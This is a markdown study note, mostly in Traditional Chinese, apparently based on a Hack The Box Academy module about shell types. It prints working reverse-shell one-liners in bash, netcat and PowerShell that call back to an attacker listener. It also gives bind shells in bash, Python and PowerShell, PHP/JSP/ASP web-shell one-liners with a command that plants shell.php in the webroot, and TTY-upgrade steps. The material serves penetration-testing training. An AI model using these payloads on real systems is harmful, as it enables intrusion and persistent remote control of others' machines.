




# Types of Shells 
https://academy.hackthebox.com/module/77/section/725



## Reverse Shell  反向 Shell
反向 Shell（Reverse Shell）是最常見的一種類型，因為它是取得對被攻陷主機控制權最迅速且最簡單的方法。一旦我們在遠端主機上發現可以進行遠端程式碼執行（RCE）的漏洞，就可以在我們自己的機器上啟動一個 Netcat 監聽器，監聽特定的埠號，例如 1234。

當監聽器設置完成後，我們就可以在遠端主機上執行一條反向 Shell 指令，讓該主機的 Shell（例如 Bash 或 PowerShell）主動連線回我們的 Netcat 監聽器，進而建立一個來自遠端系統的反向連線，讓我們得以控制該系統。

## Netcat Listener  Netcat 監聽器


```
Coconut820@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

## Connect Back IP

###  find our IP
```
Coconut820@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```
the IP we are interested in is under tun0
>[!Note]
> 我們連接到「tun0」中的 IP，因為我們只能透過 VPN 連接連接到 HackTheBox 盒，因為它們沒有網路連接，因此無法使用「eth0」透過網路連接到我們。在真正的滲透測試中，您可能直接連接到同一個網絡，或執行外部滲透測試，因此您可以透過「eth0」適配器或類似裝置進行連接。


## Reverse Shell Command  反向 Shell 指令

我們執行的命令取決於受感染主機運行的作業系統，即 Linux 或 Windows，以及我們可以存取哪些應用程式和命令。 Payload All The Things 頁面有一個我們可以使用的反向 shell 命令的綜合列表，這些命令涵蓋了根據我們受感染的主機而定的各種選項。
[Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

```bash
# bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

or 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
# poewrshell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

反向連線成功後 netcat listener 中會收到連線：
```
Coconut820@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

>[!Note]
當我們想要快速、可靠地連接到受感染的主機時， Reverse Shell 非常方便。然而， Reverse Shell 可能非常脆弱。一旦反向 shell 命令停止，或者我們因任何原因失去連接，我們就必須使用初始漏洞再次執行反向 shell 命令來重新獲得存取權限。

### Bind Shell  綁定 Shell
另一種類型的 shell 是 Bind Shell 。與連接到我們的 Reverse Shell 不同，我們必須在 targets' 監聽連接埠上連接到它。

執行 Bind Shell Command 後，它將開始監聽遠端主機上的端口，並將該主機的 shell（即 Bash 或 PowerShell ）綁定到該端口。我們必須使用 netcat 連接到該端口，然後我們將透過該系統上的 shell 取得控制權。

```bash
# bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
# python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
# powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

一旦我們執行 bind shell 命令，我們應該在指定的連接埠上有一個等待我們的 shell。現在我們就可以連接到它了。

使用 netcat 連接到該連接埠並獲得與 shell 的連接：
```
Coconut820@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

>[!Note]
我們可以看到，我們直接進入了 bash 會話，並且可以直接與目標系統互動。與 Reverse Shell 不同，如果我們因任何原因斷開與綁定 Shell 的連接，我們可以重新連接並立即獲得另一個連接。但是，如果由於任何原因停止了 bind shell 命令，或者重新啟動了遠端主機，我們仍然會失去對遠端主機的存取權限，並且必須再次利用它來獲得存取權限。

## Upgrading TTY  升級 TTY
當我們透過 Netcat 取得一個 shell 連線後，會發現我們只能輸入指令或使用 Backspace，但無法左右移動游標來編輯命令，也無法上下切換以存取歷史指令。為了能夠做到這些操作，我們需要將這個 shell 升級成 TTY（終端機介面）。這可以透過將我們本地的 TTY 終端與遠端的 TTY 進行映射來實現。

使用 python/stty :
```python
Coconut820@htb[/htb]$ python -c 'import pty; pty.spawn("/bin/bash")'
```

執行此命令後，我們將按 ctrl+z 將 shell 返回後台並返回到本機終端，然後輸入以下 stty 命令

```
www-data@remotehost$ ^Z

Coconut820@htb[/htb]$ stty raw -echo
Coconut820@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```
一旦我們按下 **fg** 鍵，它就會將我們的 netcat shell 帶回前台。此時終端將顯示一個空白行。我們可以再次按 enter 返回到我們的 shell 或輸入 reset 並按回車鍵將其恢復。此時，我們將擁有一個功能齊全的 TTY shell，其中包含命令歷史記錄和其他所有內容。

我們可能會注意到我們的 shell 沒有覆蓋整個終端。為了解決這個問題，我們需要找出一些變數。我們可以在系統上打開另一個終端機窗口，最大化窗口或使用我們想要的任何大小，然後輸入以下命令來獲取我們的變數：
```
Coconut820@htb[/htb]$ echo $TERM

xterm-256color
```
```
Coconut820@htb[/htb]$ stty size

67 318
```
第一個指令向我們顯示了 TERM 變量，第二個指令分別向我們顯示了 rows 和 columns 的值。現在我們有了變量，我們可以回到 netcat shell 並使用以下命令來更正它們：
```
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

一旦我們這樣做，我們應該有一個使用終端全部功能的 netcat shell，就像 SSH 連線一樣。

## Web Shell
我們擁有的最後一種類型的 shell 是 Web Shell 。 Web Shell 通常是一個 Web 腳本，即 PHP 或 ASPX ，它透過 HTTP 請求參數（如 GET 或 POST 請求參數）接受我們的命令，執行我們的命令，並將其輸出列印回網頁上。

首先，我們需要編寫我們的 Web shell，它將通過 GET 請求獲取我們的命令，執行它，並列印其輸出。Web shell 腳本通常是非常短且易於記住的單行腳本。以下是一些常見的常見 Web 語言短 Web Shell 腳本
```php
# php
<?php system($_REQUEST["cmd"]); ?>
```

```js
# javasceipt
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
#  asp
<% eval request("cmd") %>Í
```
<hr/>
常見 Web 伺服器的預設 webroot


如果我們正在攻擊運行 Apache 的 Linux 主機，我們可以使用以下命令編寫 PHP shell：
```bash
# bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

編寫 Web shell 後，我們可以通過瀏覽器或使用 cURL 訪問它。我們可以訪問受感染網站上的 shell.php 頁面，並使用 ？cmd=id 執行 id 命令：


## or **Use curl**
```
Coconut820@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

我們可以不斷更改命令以獲取其輸出。Web Shell 的一大好處是它可以繞過任何現有的防火牆限制，因為它不會在埠上打開新連接，而是在 80 或 443 上的 Web 埠上運行，或者 Web 應用程式使用的任何埠。另外，如果重新啟動受感染的主機，Web Shell 仍然存在，我們可以訪問它並獲得命令執行，而無需再次利用遠端主機。

Web shell 不像 reverse shell 和 bind shell 那樣具有互動性，因為我們必須不斷請求不同的 URL 來執行我們的命令。儘管如此，在極端情況下，可以編寫一個 Python 腳本來自動化此過程，並在我們的終端中為我們提供一個半互動式 Web shell。